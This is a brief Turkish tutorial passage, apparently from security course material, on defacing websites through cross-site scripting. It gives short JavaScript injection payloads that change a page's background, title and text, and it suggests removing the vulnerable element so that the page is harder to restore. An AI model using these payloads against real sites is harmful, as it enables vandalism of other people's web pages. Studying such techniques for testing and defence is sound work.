 # Tahrifat Unsurları

Bir web sayfasını istediğimiz gibi göstermek için enjekte edilmiş JavaScript kodunu (XSS aracılığıyla) kullanabiliriz. Ancak, bir web sitesini bozmak genellikle basit bir mesaj göndermek için kullanılır, bu yüzden bozulmuş web sayfasına güzel bir görünüm kazandırmak aslında birincil hedef değildir.

Bir web sayfasının ana görünümünü değiştirmek için genellikle dört HTML öğesi kullanılır:

Arkaplan Rengi:

    <script>document.body.style.background = "#141d2b"</script>
Arka plan:

    <script>document.body.background = "https://st5.depositphotos.com/19740498/65257/i/450/depositphotos_652579908-stock-photo-super-macro-portrait-ant-incredible.jpg"</script>
Sayfa Başlığı:

    <script>document.title = 'Kerem BOLLU'</script>
Sayfa Metni:

    document.getElementById("todo").innerHTML = "Ka"
Bu öğelerden ikisini veya üçünü kullanarak web sayfasına temel bir mesaj yazabilir ve hatta savunmasız öğeyi kaldırabiliriz; böylece web sayfasını hızlı bir şekilde sıfırlamak daha zor olacaktır.

